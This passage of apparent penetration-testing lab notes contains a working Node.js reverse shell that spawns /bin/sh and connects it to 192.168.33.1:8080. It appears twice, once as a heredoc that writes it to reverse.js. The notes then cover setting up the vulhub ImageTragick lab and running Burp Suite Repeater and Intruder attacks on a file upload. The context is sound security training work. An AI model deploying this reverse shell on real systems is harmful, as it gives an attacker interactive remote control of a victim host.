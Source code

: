 ```js
    client.connect(8080, "192.168.33.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

- Use the following command when tere is not nano:
```bash
#!/bin/bash
cat <<EOF > reverse.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "192.168.33.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
EOF


```

## Imagemagick
```bash

git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git imagemagick && cd imagemagick && git sparse-checkout set "imagemagick/imagetragick" && git checkout master # download a dir form an entire repo

docker-compose up -d

pushd /home/edibauer/Downloads
popd # return to the previos path

```
- In downloads, create a test.txt file

- In burpsuite
    - Change the value of the port to 8081
    - Use foxyproxy to use burpsuite
    - Upload the file. Into burpsuite press `ctrl + r` to activate `Repeater` and send file
    - Press `ctrl + i` to send it at `Intruder`
    - In `Intruder` make a `Sniper Attack`
